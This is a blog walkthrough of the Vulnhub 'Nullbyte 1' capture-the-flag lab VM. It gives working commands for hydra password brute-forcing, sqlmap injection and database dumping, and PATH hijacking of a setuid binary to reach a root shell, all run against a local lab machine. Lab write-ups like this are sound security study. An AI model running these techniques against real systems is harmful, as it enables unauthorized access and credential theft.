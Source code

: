 ```yaml
---
layout: post
title: "Nullbyte 1 solution"
modified: 2015-08-25 11:25:15 +0100
category: []
tags: [walkthrough, nullbyte, vulnhub, security, solution, NB0x01]
image:
  feature: 
  credit: 
  creditlink: 
comments: True
share: 
---
```


I've been AFK for a while because of various reasons, but now I'm back and have
managed to scrape a little time together to get on with some of [Vulnhub's](https://vulnhub.com)
new VMs. 

So let's start with [Nullbyte 1](https://www.vulnhub.com/entry/nullbyte-1,126/)

# Stage 1

I ran the usual service discovery and found:

{% highlight bash %}
root@kali:~# nmap -sV 192.168.56.101

Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-08-25 11:29 BST
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

HTTP server on 80 and ssh on 777. I'm going to take the straightforward one, and head
to the HTTP server first.

Upon opening the page I only get an image and some text

{% img http://i.imgur.com/SlVGKol.png %}

I ran `dirbuster` on the root and got a couple of hits: `uploads` and `phpmyadmin`. The first had disabled directory listing
and the second was a no go, but at least told me there was a SQL server available somewhere.

The source of the page doesn't reveal anything else either, so that last place we might be able to find something
is the image itself. There doesn't appear to be any steganography involved here and nothing in the hexdump of the image
either. Well, let me take a look at the EXIF data then.

{% highlight bash %}
root@kali:~/Downloads# exiftool main.gif 
ExifTool Version Number         : 9.74
File Name                       : main.gif
Directory                       : .
File Size                       : 16 kB
File Modification Date/Time     : 2015:08:25 10:27:37+01:00
File Access Date/Time           : 2015:08:25 10:28:35+01:00
File Inode Change Date/Time     : 2015:08:25 10:27:37+01:00
File Permissions                : rw-r--r--
File Type                       : GIF
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
{% endhighlight %}

Hrmm, that comment looks unusual. Let's try that in the URL. Initially I got a 404
but that's because I didn't remove the `P-): `. Hitting `http://192.168.56.101/kzMb5nVYJw`
takes me to a form asking for a key.

# Stage 2

Typing in something random just shows `invalid key`. Ok, let me take a look at the source,
see where this thing goes.

{% highlight html %}

<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
{% endhighlight %}

Ok, so no SQLi here then, and the password isn't complex either. I'm guessing
a simple wordlist might solve this for me. Time to break out `hydra` for this:

{% highlight bash %}
root@kali:~# hydra 192.168.56.101 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P /usr/share/dict/words -t 10 -w 30
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-25 11:41:58
[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
[DATA] attacking service http-post-form on port 80
[STATUS] 18687.00 tries/min, 18687 tries in 00:01h, 80484 todo in 00:05h, 10 active
[80][http-post-form] host: 192.168.56.101   login: x   password: elite
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

Bingo. Once I enter that into the field I am able to search for usernames.

# Stage 3

Entering all sorts of names reveals nothing. At this point I am guessing this
is the part that is backed by a SQL database. Although usernames and the usual
SQLi synbols don't do much, entering nothing dumps multiple records. Maybe I will
try to `sqlmap` the URL to see if there's any vulnerabilities there

{% highlight bash %}
root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=

<snip>

[11:13:26] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable 
[11:13:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:13:26] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:13:26] [INFO] target URL appears to have 3 columns in query
[11:13:26] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
{% endhighlight %}

Result! Using this we can now dump the databasenames, tables, and data in the DB

(output shortened for clarity)
{% highlight bash %}
root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --current-db
back-end DBMS: MySQL 5.0.12
[11:13:44] [INFO] fetching current database
current database:    'seth'

root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --tables -D seth
[11:13:55] [INFO] fetching tables for database: 'seth'
Database: seth
[1 table]
+-------+
| users |
+-------+


root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump -D seth -T users
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
{% endhighlight %}

An MD5 hashed password? I best put that through [md5decoder](http://md5decoder.org/) to
be rewarded with the password `omega`

# stage 4

Turns out that this is ramses's password on the ssh service that's running on 
port 777 on the VM. So I'll connect to that and have a look at what's going on there.

Not much in his home directory, so I'll checkout what he's been up to

{% highlight bash %}
ramses@NullByte:~$ cat .bash_history 
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
{% endhighlight %}

Interesting, ramses has something in `/var/www`. Seems like a setuid root
binary called `procwatch`. After running it I would assume that it's just running `ps`
to return a list of processes. If I run `ps` on its own, I get the same output (minus
procwatch of course)

So let's see if it calls `ps` with an absolute path, or not. As a quick test I'll create
a symlink to `ls` in the current directory and name it `ps`. Then I set the `PATH` environment variable
with the current dir at the front.

{% highlight bash %}
ramses@NullByte:/var/www/backup$ ln -s /bin/ls ps
ramses@NullByte:/var/www/backup$ export PATH=`pwd`:${PATH}
ramses@NullByte:/var/www/backup$ ./procwatch 
ls  procwatch  ps  readme.txt
{% endhighlight %}

Excellent, it just calls `ps` without a path. A classic issue you can often
find in programs that call other programs.

So let me leverage this to get myself a root shell and ultimately the flag

{% highlight bash %}
ramses@NullByte:/var/www/backup$ ln -snf /bin/sh ps
ramses@NullByte:/var/www/backup$ ./procwatch 
# whoami 
root
# cat /root/proof.txt
[OUTPUT CUT]
{% endhighlight %}

And that concludes the NullByte VM walkthrough. A nice little machine with some fun
challenges. Thanks to ly0n for creating it.

